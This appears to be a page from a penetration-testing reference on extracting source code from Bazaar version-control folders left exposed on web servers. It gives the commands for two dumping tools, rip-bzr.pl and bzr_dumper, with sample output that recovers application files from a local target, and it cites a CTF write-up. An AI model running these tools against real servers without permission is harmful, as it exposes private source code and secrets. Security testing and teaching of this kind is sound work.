 # Bazaar

> Bazaar  (also known as bzr ) is a free, distributed version control system (DVCS) that helps you track project history over time and collaborate seamlessly with others. Developed by Canonical, Bazaar emphasizes ease of use, a flexible workflow, and rich features to cater to both individual developers and large teams.

## Summary

* [Tools](#tools)
    * [rip-bzr.pl](#rip-bzrpl)
    * [bzr_dumper](#bzr_dumper)
* [References](#references)

## Tools

### rip-bzr.pl

* [kost/dvcs-ripper/rip-bzr.pl](https://raw.githubusercontent.com/kost/dvcs-ripper/master/rip-bzr.pl)

    ```powershell
    docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-bzr.pl -v -u
    ```

### bzr_dumper

* [SeahunOh/bzr_dumper](https://github.com/SeahunOh/bzr_dumper)

```powershell
python3 dumper.py -u "http://127.0.0.1:5000/" -o source
Created a standalone tree (format: 2a)
[!] Target : http://127.0.0.1:5000/
[+] Start.
[+] GET repository/pack-names
[+] GET README
[+] GET checkout/dirstate
[+] GET checkout/views
[+] GET branch/branch.conf
[+] GET branch/format
[+] GET branch/last-revision
[+] GET branch/tag
[+] GET b'154411f0f33adc3ff8cfb3d34209cbd1'
[*] Finish
```

```powershell
bzr revert
 N  application.py
 N  database.py
 N  static/
```

## References

* [STEM CTF Cyber Challenge 2019 – My First Blog - m3ssap0 / zuzzur3ll0n1 - March 2, 2019](https://ctftime.org/writeup/13380)
